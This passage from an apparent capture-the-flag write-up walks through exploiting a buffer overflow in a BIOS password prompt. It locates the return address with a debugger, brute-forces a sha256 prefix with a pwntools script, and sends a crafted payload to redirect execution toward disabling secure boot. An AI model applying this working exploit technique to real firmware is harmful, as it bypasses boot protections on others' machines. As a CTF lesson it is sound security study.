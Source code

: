 **Find Where the Return Address is Stored**

This is not so hard, what we need to do is to set a breakpoint at the `ret` instruction of the password interface function (e.i. `password_FE50`), and see the current `rsp` value. To be specific, we use command `b *0x67DB0BB`, and enter wrong password for 3 times, then the function will exit and breakpoint can be triggered.

![1561935288179](files/1561935288179.png)

As shown clearly above, the return address is stored in address `0x7ec18b8`.

**Specific Exploitation**

Now the particular steps are clear. Firstly, we need to use overflow to rewrite the variable `dst` to `0x7ec18b8 - 32 + 1`, so that the last byte of the hash is the least significate byte of return address. Then we need to find a string such that the last byte of its `sha256` hash is `\x49`. Note that, the actual payload that we are going to send is `'A' * 0x88 + p32(0x7ec18b8 - 32 + 1) + '\r'`, where the `A` prefix should be modified to make last byte of the hash `\x49`. However, when the input is used to calculate hash value, actual bytes used is `'A' * (0x80) + p64(0) + p32(0x7ec18b8 - 32 + 1)`. This is because variable `v8` just after the password buffer will be assigned to return value of `ReadKeyStroke`, which is zero at this point.

Therefore, here is the script to obtain the payload prefix:

```python
import binascii
from pwn import *

for i in xrange(0x10000):
	pld = hex(i)[2:]
	dk = hashlib.sha256(pld + 'A' * (0x80-4) + p64(0) + p32(0x7ec18b8 - 32 + 1)).hexdigest()
	dk = binascii.unhexlify(dk)
	if ord(dk[31]) == 0x49:
		print pld
```

There are many outputs, and we just chose `'1010'` as the prefix.

Therefore, finally the payload to be sent as password is this:

```python
sh.send('1010' + 'A' * 0x84 + p32(0x7ec18b8 - 32 + 1) + '\r')
```

### Tackle with BIOS

Now we finally got into BIOS interface. The idea is to disable secure boot here and reboot the OS. However, if we run the script locally, the BIOS interface we get is this:

![BIOS1](files/BIOS1.png)

which is very ugly because it print the control characters used to draw UI as raw bytes, I failed to find `pwntool` functionality to make this more readable, but fortunately when this is run remotely the UI can be shown.

![BIOS2](files/BIOS2.png)
